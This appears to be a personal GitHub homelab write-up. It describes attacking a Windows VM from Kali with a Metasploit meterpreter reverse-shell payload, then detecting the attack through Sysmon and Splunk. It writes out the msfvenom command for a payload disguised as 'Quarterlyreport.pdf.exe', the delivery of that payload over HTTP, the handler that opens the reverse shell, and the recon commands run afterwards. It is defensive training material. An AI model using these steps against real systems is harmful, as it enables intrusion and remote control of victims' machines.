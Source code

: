 <h3>Objective</h3>

I created this lab to have a safe space to safely experiment with red/blue team roles in a live environment. In this lab, I will create a private network with two endpoints. One of the VMs will be our blue team machine(Windows Box) and the other will be our red team machine(Kali-linux). I will place both machines on a private network and use Metasploit in the Kali Linux VM to attack our Blue team VM, which will have Sysmon and a Splunk instance to capture all the traffic. 

<h3>Skills Learned</h3>  

-Log analysis

-Configuration of a System Information Event Manager(SIEM)

-Red/blue teaming

-Virtual machine configuration

-Experience in a simulated live environment

<h3>Tools Used</h3>

-Splunk

-Sysmon

-Metasploit


Spin up two VMs, One being Windows and the other being Kali Linux. On both VMs set the network adapter to the "Internal Network" setting while making both VM IPs static to the same network. This network scheme was selected to keep the VMs from being accessible from the open web, while also having the ability to communicate with each other.

The IP's in this Homelab: Windows VM- 192.168.33.2, Kali VM- 192.168.33.3 

For this lab, we will open up the RDP port(3389) and turn off the firewall on our Windows VM.

<img width="583" alt="image" src="https://github.com/user-attachments/assets/5b423ff8-596e-4f76-95a8-854c507c9b36" />

Ref 1: Virtual Box Settings

<h3>Splunk Setup</h3>

To set up our blue team environment on our Windows VM, we will be configuring Sysmon on the endpoint to gather event logs and send them directly to our Splunk instance, also installed on our Windows machine.
We did this by allocating a Sysmon config file from Github, copying it to the directory containing the Sysmon application, and running the command ./sysmon64.exe -i sysmonconfig.xml in Powershell.
Installing Sysmon will enhance our ability to capture system events.(Since I don't want to expose these VMs to the open web, I downloaded the config file from my main PC, enabled bidirectional drag and drop on the VM, and copied the file directly into the VM.) 
For Splunk configuration, I installed the Sysmon add-on and created the "endpoint" index. Our Sysmon config file will point to the index we created by its name, allowing Sysmon to send logs to our Splunk instance

<h3>Weaponization</h3>
  
  To create telemetry from our Kali VM to our Windows VM, we are going to use the well-known Metasploit pentesting tool.
We will start by creating the Malware payload with this command: msfvenom -p windows/x64/meterpreter_reverse_tcp lhost-192.168.33.3 -f exe Quarterlyreport.pdf.exe
-p chooses the payload we want to use provided by the Metasploit tool. 
"lhost", determines which IP this reverse shell payload will remote back to when executed.
-f will decide the file name, we will name it Quarterlyreport.pdf.exe to entice the "end user" to click on it.

![Screenshot 2025-03-12 072905](https://github.com/user-attachments/assets/17e8deb8-90ab-4509-b982-a718275314f4)

Ref 2: Malicious Payload

<h3>Delivery/Installation</h3>

Now we need to deliver the payload to the end user.
To do so, we will host an HTTP Python server by running the command found below inside the directory where the payload was saved to
python3 -m http.server 9999. 
On our Windows machine we will search the IP of our Kali box followed by ":9999" which is the port designated in our Python command. 

![executing the file](https://github.com/user-attachments/assets/b5601151-d80e-4cca-9425-6304a0f62d4e)

Ref 3: Delivering the Payload to the Victim

After searching this, it will take us to the directory in our Kali VM. We will then download and execute the malicious file we created.
We see on our Kali terminal that a GET request was logged
After running "netstat -anob" on the Windows VM we see a network connection established to our Kali box 

<h3>Command & Control</h3>

Now that we have successfully delivered and installed our malware, it's time to carry out the exploitation phase of our attack.
We do this by opening the Msfconsole on our Kali VM and configuring the handler by setting the payload to "windows/x64/meterpreter/reverse_tcp" and setting our local IP and the port we want the exploit to use on the victim machine.
After configuring the handler, we insert the exploit into the CLI to initiate the reverse TCP handler.
The session has been opened with our victim machine (192.168.33.2).

![Updated handler](https://github.com/user-attachments/assets/1106b392-a05b-4a9f-a284-8d72a3783490)

Ref 4: Reverse Shell

Now we will run the following commands in our handler to open up a shell and create network traffic to analyze in our Splunk instance.
Commands: shell, netstat, ipconfig, net user, net group.

<h3>Log Analysis</h3>

Time to do some threat hunting in our Splunk instance.
We will start by searching for our index in Splunk.
I have a suspicion that the 192.168.33.3 IP we are sending traffic to is a threat, let's filter traffic that is being sent to that IP.

![Screenshot 2025-03-10 211850](https://github.com/user-attachments/assets/63eb2f00-f37e-44f8-a4ad-3107ed305bd4)

Ref 5: Splunk Query by IP

After analyzing the event, we see that one of the events has a suspicious .exe file with two file extensions in the name
Luckily, we are running Sysmon, which allows the SourceProcessGUID, if we filter by this field, we can display all events related to this suspicious file 

![SIEM SourceProcessGUID](https://github.com/user-attachments/assets/d41747eb-220b-4aaf-a606-6870af1f8ff4)

Ref 6: Splunk Event Details

We queried the SourceProcessGUID and organized the output with the table command to display the Time, ParentImage, Image, and Command Line

![Final SIEM](https://github.com/user-attachments/assets/e96640cd-65a9-40e6-a0a4-0e3663bc74e8)

Ref 7: Shell Commands With a Parent Process of Quarterlyreport.pdf.exe

<h3>Incident Response</h3>

Upon analysis, we see commands being executed affiliated with an IP that is not the host's, sound the alarms.
In a real life scenario, this endpoint would be immediately quarantined from the rest of the network to mitigate damage from spreading.
The IP would also be blacklisted and the firewall reconfigured to block this suspected RAT throughout the network.

